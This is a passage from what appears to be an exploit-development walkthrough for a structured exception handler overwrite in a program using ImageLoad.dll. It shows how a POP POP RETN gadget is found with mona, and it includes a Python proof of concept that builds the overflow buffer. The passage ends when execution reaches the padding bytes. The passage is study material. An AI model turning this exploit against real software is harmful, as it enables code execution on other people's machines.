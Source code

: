 Once again with mona, POP POP RETN sequences are listed within modules that lack proctections, in this case being the selected one "ImageLoad.dll":

![](/assets/img/Findings0/8.png)

The first result is copied into the PoC, along with a short jump on the next handler offset:

```terminal_session
import struct

seh = struct.pack("<I", 0x1002324C)
nseh = struct.pack("<I", 0x06710870)

buffer = "A" * 512 + nseh + seh + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

After this payload is sent, the SEH Chain is overwritten with the desired values, this will make the short jump go over 6-bytes after the SEH handler, which is the POP-POP-RETN sequence:

![](/assets/img/Findings0/9.png)

Upon executing F9 (Run), execution is granted for the padding bytes:
